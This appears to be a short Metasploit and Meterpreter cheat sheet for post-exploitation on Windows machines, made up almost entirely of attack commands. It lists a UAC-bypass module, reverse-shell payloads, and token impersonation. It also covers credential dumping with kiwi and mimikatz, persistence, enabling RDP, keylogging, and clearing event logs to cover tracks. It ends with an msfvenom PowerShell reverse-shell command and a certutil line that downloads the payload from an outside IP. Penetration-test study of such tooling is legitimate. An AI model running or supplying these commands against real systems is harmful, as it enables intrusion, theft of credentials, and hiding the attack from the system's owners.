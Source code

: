 # Print checksum of file
```
checksum md5 <file>
```

# Check PATH environment variables
```
getenv PATH
```

# Search for files
```
search -d <directory> -f <filename> # can use wildcards (*)
```


# Modules
```
exploit/windows/local/bypassuac_injection
windows/x64/meterpreter/reverse_tcp # set target to Windows x64
post/windows/gather/win_privs
post/windows/gather/enum_logged_on_users
post/windows/gather/checkvm
post/windows/gather/enum_applications
post/windows/gather/enum_av_excluded
post/windows/gather/enum_computers
post/windows/gather/enum_shares
```

# Token impersonation
```
# Load the incognito module into metaploit
load incognito

# List tokens
list_tokens -u
```

# Account hashes
```
# From within meterpreter
load kiwi

lsa_dump_sam
lsa_dump_secrets
creds_all

# upload mimikatz through certutil then launch mimikatz
sekurlsa::logonpassword
```

# Establis Windows Persistence
```
# From msf console
search platform:windows persistence
use windows/local/persistence_service

# Catch the shell
use multi/handler
set payload windows/meterpreter/reverse_tcp 
```


# Enable RDP
```
use windows/manage/enable_rdp
```

# Key Logging
use help command while in a meterpreter session

# Clear event logs
```
# Meterpeter
clearev
```

# Powershell script
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
```

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT 4444; exploit"
```

certutil.exe -urlcache -split -f http://10.50.78.248:8000/shell.ps1
